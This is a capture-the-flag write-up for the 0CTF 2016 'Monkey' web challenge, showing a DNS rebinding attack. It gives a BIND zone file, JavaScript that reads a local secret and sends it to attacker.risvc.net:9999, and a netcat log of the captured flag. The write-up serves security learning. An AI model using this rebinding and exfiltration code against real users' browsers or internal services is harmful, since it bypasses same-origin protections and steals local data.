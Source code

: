 ## 0CTF 2016 - Monkey (Web 4pt)
##### 12-14/03/2016 (48hr)
___

### Description: 
What is Same Origin Policy?

you can test this problem on your local machine

http://202.120.7.200

___
### Solution

Although I couldn't solve this challenge during the contest, the DNS rebinding attack
was pretty interesting, so I decided to implement it.

Initially we set out DNS records as follows (/etc/bind/db.risvc.net):

```
$TTL    9
@       IN      SOA     myns.risvc.net. root.risvc.net. (
                                 4         ; Serial
                                 9         ; Refresh
                                 9         ; Retry
                                 9         ; Expire
                                 9 )       ; Negative Cache TTL
;
                IN      NS      myns.risvc.net.
                IN      MX      9 mail.risvc.net.
myns            IN      A       52.86.7.190    
mail            IN      A       52.86.7.190
local           IN      A       192.168.1.102
 
; When victim visits local2.risvc.net for first time, we return 192.168.1.102
; Once victim gets connected we change local2 record and we restart DNS, so
; the next query for local2.risvc.net will return 127.0.0.1
local2          IN      A       192.168.1.102
;local2         IN      A       127.0.0.1
 
 
attacker        IN      A       192.168.1.102
```

TTL is very small, so it's expires after a short time. We send dns_rebind.html to the bot/victim,
so when it opens it on the browser, it executes our javascript in its context:

```javascript
	setTimeout(function() { 
			document.body.innerHTML += "</br>Time's up!"

			var xhr = new XMLHttpRequest();
			xhr.onreadystatechange = function() 
			{
				if( xhr.readyState == XMLHttpRequest.DONE ) 
				{
					var image = new Image();
			        image.src = "http://attacker.risvc.net:9999/?file=" + xhr.responseText

				}
			}

			xhr.open('GET', 'http://local2.risvc.net:8080/secret');
			xhr.send();

	}, 90*1000)
```

After 90 seconds our javascript code requests file: http://local2.risvc.net:8080/secret. 
However when the file is requested, a new DNS request is made, but this time the returned
IP is 127.0.0.1, so we can access local filesystem.

Below is a screenshot from wireshark. As you can see the 2 DNS responses, return different
IPs for the same domain:
![alt text](dns_rebinding.png "Figure 1. DNS Rebinding")


Finally, once we read the file, a new connection is made to the attacker's machine and 
the secret file is send as part of the GET request:

```
root@nogirl:~# nc -nvvl -p 9999
 		listening on [any] 9999 ...
 		connect to [192.168.1.102] from (UNKNOWN) [192.168.1.101] 50876
 		GET /?file=0ctf{monkey_likes_banananananananaaaa} HTTP/1.1
 		Host: attacker.risvc.net:9999
 		Connection: keep-alive
 		User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36
 		Accept: image/webp,image/*,*/*;q=0.8
 		Referer: http://local2.risvc.net:8080/play/dns_rebind.html
 		Accept-Encoding: gzip, deflate, sdch
 		Accept-Language: el-GR,el;q=0.8
```

For more details take a look at dns_rebind.html file.
___
